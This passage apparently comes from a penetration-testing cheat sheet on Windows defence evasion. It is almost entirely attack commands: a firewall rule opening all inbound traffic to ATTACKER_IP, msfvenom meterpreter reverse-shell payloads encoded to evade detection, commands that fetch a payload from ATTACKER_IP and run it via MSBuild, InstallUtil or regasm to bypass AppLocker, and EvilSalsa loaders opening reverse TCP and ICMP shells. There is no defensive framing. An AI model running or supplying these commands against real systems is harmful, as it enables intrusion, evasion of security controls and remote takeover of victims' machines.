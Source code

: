```bash
New-NetFirewallRule -Name VALUEinbound -DisplayName VALUEinbound -Enabled True -Direction Inbound -Protocol ANY -Action Allow -Profile ANY -RemoteAddress ATTACKER_IP
```

### Applocker ByPass

- References
  - [Generic AppLocker bypasses](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md)
  - [Verified AppLocker Bypasses](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/VerifiedAppLockerBypasses.md) 
  - [DLL Execution](https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/DLL-Execution.md)
  
```bash
# Multistep process to bypass applocker via MSBuild.exe:
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.56 LPORT=9001  -f csharp -e x86/shikata_ga_nai -i  > out.cs 

# Replace the buf-sc and save it as out.csproj
https://raw.githubusercontent.com/3gstudent/msbuild-inline-task/master/executes%20shellcode.xml

Invoke-WebRequest "http://ATTACKER_IP/payload.csproj" -OutFile "out.csproj"; C:\windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe .\out.csproj

# or you can simply use my tool :)
https://github.com/VALUE/Msbuild-payload-generator
sudo python msbuild_gen.py -a x86 -i 10 --lhost 192.168.220.130 --lport 9001 -m
```

### GreatSCT

```bash
# This also needs Veil-Framework
python GreatSCT.py --ip 192.168.1.56 --port 443 -t Bypass -p installutil/powershell/script.py -c "OBFUSCATION=ascii SCRIPT=/root/script.ps1"

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false payload1.exe

python3 GreatSCT.py -t Bypass -p regasm/meterpreter/rev_tcp --ip 192.168.1.56 --port 9001
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U payload.dll
```

### EvilSalsa

```bash
#Preparing payloads
python EncrypterAssembly/encrypterassembly.py EvilSalsa.dll supersecretpass123 evilsalsa.dll.txt
EncrypterAssembly.exe EvilSalsa.dll supersecretpass123 evilsalsa.dll.txt

#Executing payload
SalseoLoader.exe password http://ATTACKER_IP/evilsalsa.dll.txt reversetcp ATTACKER_IP 9001

# Reverse icmp shell
python icmpsh_m.py "ATTACKER_IP" "VICTIM_IP"
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp ATTACKER_IP
```
